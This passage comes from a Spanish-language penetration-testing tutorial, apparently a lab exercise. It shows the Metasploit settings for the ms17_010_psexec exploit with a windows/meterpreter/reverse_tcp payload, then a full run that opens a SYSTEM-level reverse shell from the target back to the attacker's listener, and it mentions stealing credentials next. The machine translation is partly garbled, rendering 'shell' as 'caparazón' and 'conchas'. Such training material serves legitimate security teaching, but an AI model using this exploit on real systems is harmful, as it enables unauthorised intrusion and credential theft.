 ```
   SMBPass                                            no        The password for the specified username
   SMBUser                                            no        The username to authenticate as

Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.10.14.12      yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port

```

Esta vez, lo mantuvimos simple y solo usamos un`windows/meterpreter/reverse_tcp`carga útil. Puede cambiar esto como desee para un tipo de shell diferente u ofuscar más su ataque, como se muestra en las secciones de carga útil anterior. Con nuestras opciones establecidas, intentemos esto y veamos si aterrizamos un caparazón.

1. Ejecutar el ataque y recibir una devolución de llamada.

### **Ejecutar nuestro ataque**

Infiltración de ventanas

```
msf6 exploit(windows/smb/ms17_010_psexec) > exploit

[*] Started reverse TCP handler on 10.10.14.12:4444
[*] 10.129.201.97:445 - Target OS: Windows Server 2016 Standard 14393
[*] 10.129.201.97:445 - Built a write-what-where primitive...
[+] 10.129.201.97:445 - Overwrite complete... SYSTEM session obtained!
[*] 10.129.201.97:445 - Selecting PowerShell target
[*] 10.129.201.97:445 - Executing the payload...
[+] 10.129.201.97:445 - Service start timed out, OK if running a command or non-service executable...
[*] Sending stage (175174 bytes) to 10.129.201.97
[*] Meterpreter session 1 opened (10.10.14.12:4444 -> 10.129.201.97:50215) at 2021-09-27 18:58:00 -0400

meterpreter > getuid

Server username: NT AUTHORITY\SYSTEM
meterpreter >

```

¡Éxito! Hemos aterrizado nuestra exploit y ganamos una sesión de conchas. A`SYSTEM`Nivel de caparazón en eso. Como se ve en los módulos MSF anteriores, ahora que tenemos una sesión abierta a través de Meterpreter, se nos presenta el`meterpreter >` inmediato. A partir de aquí, podemos utilizar Meterpreter para ejecutar más comandos para recopilar información del sistema, robar credenciales de los usuarios o usar otro módulo de explotación posterior al host. Si desea interactuar directamente con el host, también puede caer en una sesión de shell interactiva en el host desde meterpreter.
